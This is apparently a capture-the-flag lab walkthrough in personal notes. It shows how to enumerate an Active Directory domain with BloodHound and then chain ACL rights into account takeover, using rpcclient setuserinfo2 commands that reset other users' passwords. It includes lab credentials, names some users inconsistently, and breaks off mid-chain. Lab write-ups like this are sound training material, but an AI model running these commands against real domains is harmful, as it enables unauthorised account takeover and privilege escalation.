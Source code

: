 BloodHound uses graph theory to model the relationships within an Active Directory environment. It ingests data about users, groups, computers, sessions, and ACLs (Access Control Lists) to create a graph that represents all possible attack paths.

More info about installation and execution [here](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce).

Since you have credentials, we can run `bloodhound` to get the Active Directory structure for this environment :

 `bloodhound-python -d thm.corp -u 'AUTOMATE' -p 'Passw0rd1' -ns MACHINE IP -c All`

You'll get 7 `json` files :

![[Screenshot from 2024-08-12 19-35-27.png]]

## neo4j

More info about [[Neo4j]].\

- Run neo4j:

	`neo4j console`
	
	![[Screenshot from 2024-08-12 20-09-36.png]]
- Browse http://localhost:7474.

	![[Screenshot from 2024-08-12 20-00-25.png]]
	Credentials: neo4j:neo4j

## Bloodhound execution

- Run Bloodhound.
	`bloodhound`
	
	![[Screenshot from 2024-08-12 20-20-45.png]]
	Credentials: neo4j:neo4j

- Click on  the **Upload data** button.
	![[Screenshot from 2024-08-12 20-35-09.png]]
	
- Select all the json files created previously and click Open.
	![[Screenshot from 2024-08-12 20-37-24.png]]
	![[Screenshot from 2024-08-13 20-17-31.png]]
- Once all the files have been imported click on Refresh.![[Screenshot from 2024-08-13 20-11-17.png]]

## Analyzing the BloodHound data

- In the `Analysis` section, you can find `Pre-Built Analytics Queries`.
- Run the `Find AS-REP Roastable Users (DontReqPreAuth)` Query.
	![[Screenshot from 2024-08-13 20-21-19.png]]
	There are 3 users that do not have `Kerberos pre-authentication` enabled.

### Transitive Object Control

Transitive Object Control are objects this user can gain control of by performing ACL-only-based attacks in Active Directory. It's represented as a number. In other words, the maximum it is the number of objects the user can gain control of without needing to pivot to any other system in the network, just by manipulating objects in the directory

- Select the node for `TABATHA_BRITT` and display all `Transitively Controllable Objects`.
	![[Screenshot from 2024-08-13 20-58-38.png]]
	![[Screenshot from 2024-08-13 21-31-00.png]]
	You have:
	`GenericAll` from `TABATHA_BRITT` to `SHAWMA_BRAY`.
	
	`ForceChangePassword` from `SHAWMA_BRAY` to `CRUZZ_HALL`.
	
	`GenericWrite` from `CRUZ_HALL` to `DARLA_WINTERS`.

	This means we have a chance to own all these users by resetting their passwords, let's break it down :
	- Use `TABATHA_BRITT` to reset the password of `SHAWNA_BRAY`.
	- then  use `SHAWNA_BRAY` to reset the password of `CRUZ_HALL`.
	- finally use `CRUZ_HALL` to reset the password of `DARLA_WINTERS`.

### Changing  and resetting passwords
In bloodhound, if you right click on one of the arrows that contains the `rights` you have on other users, you get a help section that contains techniques you could use to take advantage of those rights :

![[Diagram.svg]]

You got a command you can use to change the password of other users.
```
rpcclient -U thm.corp/TABATHA_BRITT%'marlboro(1985)' <MACHINE IP>

```

#### Resetting the password of `SHAWNA_BRAY` using `TABATHA_BRITT`'s credentials

`rpcclient -U thm.corp/TABATHA_BRITT%'marlboro(1985)' 10.10.25.62``
rpcclient $> `setuserinfo2 SHAWNA_BRAY 23 Password@4444`
rpcclient $> `exit`

Confirm that the changes were successful  choosing Execution rights->First degree RDP privileges.
	
	![[Screenshot from 2024-08-15 20-18-54.png]]

#### SHAWNA_BRAY\@THM.CORP -> ForceChangePassword -> CRUZZ_HALL\@THM.CORP

The **ForceChangePassword** permission allows us (in this case SHAWNA_BRAY\@THM.CORP) to reset a user's password without knowing their current password. So this user can reset CRUZZ_HALL\@THM.CORP's password.

`rpcclient -U thm.corp/SHAWNA_BRAY%'Password@4444' 10.10.25.62`

rpcclient $> `setuserinfo2 CRUZ_HALL 23 Password@4444`                           rpcclient $> `exit`   

Confirm that the changes were successful  choosing Execution rights->First degree RDP privileges.

![[Screenshot from 2024-08-15 20-43-32.png]]

#### CRUZZ_HALL\@THM.CORP\ -> ForceChangePassword -> DARLA_WINTERS\@THM.CORP

Same as above, this time CRUZZ_HALL\@THM.CORP can reset DARLA_WINTERS\@THM.CORP's password.

`rpcclient -U thm.corp/CRUZZ_HALL%'Password@2038' 10.10.25.62`
